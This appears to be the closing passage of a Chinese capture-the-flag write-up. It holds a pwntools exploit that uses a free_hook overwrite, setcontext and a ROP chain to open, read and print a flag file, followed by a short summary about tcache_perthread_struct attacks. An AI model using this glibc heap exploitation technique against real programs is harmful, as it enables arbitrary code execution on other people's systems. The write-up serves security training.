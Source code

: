 ```
    pop_rdi = libc_base + 0x26bb2
    pop_rsi = libc_base + 0x2709C
    pop_rdx_r12 = libc_base + 0x11c3b1
    
    the_gadget = libc_base + 0x154b20
    setcontext = libc_base + libc.sym["setcontext"]
    
    frame = SigreturnFrame()
    frame_addr = free_hook+0x10
    
    frame.rax = 0 
    frame.rsp = frame_addr + 0x108
    frame.rip = ret

    ROP_chain = [
            pop_rdi,
            frame_addr + 0xF8,
            libc_base + libc.sym["open"],
            pop_rdi,
            3,
            pop_rsi,
            frame_addr+0x250,
            pop_rdx_r12,
            0x40,
            0,
            libc_base + libc.sym["read"],
            pop_rdi,
            frame_addr+0x250,
            libc_base + libc.sym["puts"]
            ]
    
    
    frame_str = str(frame).ljust(0xf8,"\x00")
    payload = p64(the_gadget) + p64(frame_addr) + p64(0)*4 + p64(setcontext+61)
    payload += frame_str[0x28:] + "./flag\x00\x00"+p64(0) + flat(ROP_chain)


    target.recvuntil(">>")
    target.sendline(payload)

    target.interactive()


target.interactive()
```

## 总结
这两道题都考察了对tcache_perthread_struct的直接攻击,也碰到了未接触过的知识点,好评! 
~~那道VM题鸽了,实在不想看.~~

### 参考
[https://www.anquanke.com/post/id/235821](https://www.anquanke.com/post/id/235821#) 